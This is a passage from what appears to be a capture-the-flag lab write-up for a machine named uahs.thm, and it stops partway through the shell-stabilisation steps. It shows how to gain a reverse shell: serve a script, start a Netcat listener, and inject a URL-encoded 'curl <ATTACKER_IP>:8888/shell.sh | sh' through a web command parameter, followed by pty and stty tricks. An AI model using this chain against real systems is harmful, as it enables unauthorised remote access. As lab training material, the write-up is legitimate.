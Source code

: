 Next, we will host the file using a simple Python server:

```sh
python3 -m http.server 8888
```

Before we execute our reverse shell script we have to start up a Netcat listener:

```sh
nc -nvlp 4444
```

Now we are ready to catch a shell by sending a `curl` command to download our reverse shell script and pipe the script to bash to execute it:

```sh
curl <ATTACKER_IP>:8888/shell.sh | sh
```

Let's also URL encode the command using [CyberChef](https://gchq.github.io/CyberChef/#recipe=URL_Encode%28true%29\&input=Y3VybCA8QVRUQUNLRVJfSVA%2BOjg4ODgvc2hlbGwuc2ggfCBzaA "https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)\&input=Y3VybCA8QVRUQUNLRVJfSVA%2BOjg4ODgvc2hlbGwuc2ggfCBzaA") to avoid any character escaping in the terminal (make sure to check the "Encode all special chars" option):

```plaintext
curl%20%3CATTACKER%5FIP%3E%3A8888%2Fshell%2Esh%20%7C%20sh
```

![928a9e90cde198deb6585b375fde98be.png](/resources/d2cfdef1f368497b947e7116befb9dbc.png)

We will take this URL encoded command and append it to the previous URL we used to run the `whoami` command. The full command should look similar to this:

```sh
curl -vvv http://uahs.thm/assets/index.php?cmd=curl%20%3CATTACKER%5FIP%3E%3A8888%2Fshell%2Esh%20%7C%20sh
```

After a few seconds we should get a connection back from the viction machine on our Netcat listener:

![8ce3523a1726d5ad73c46422e68dae1f.png](/resources/0b398162c83048a88175bccaac2fe695.png)

Let's stablize our new shell:

1. Use Python to spawn a stable shell:

   ```sh
   python3 -c 'import pty;pty.spawn("/bin/bash")'
   ```

2. `CTRL+Z` to background the current shell

3. Fix echoing and foregrounds the shell:

   ```sh
   stty raw -echo;fg
   ```

4. Set terminal to use 256 colors:
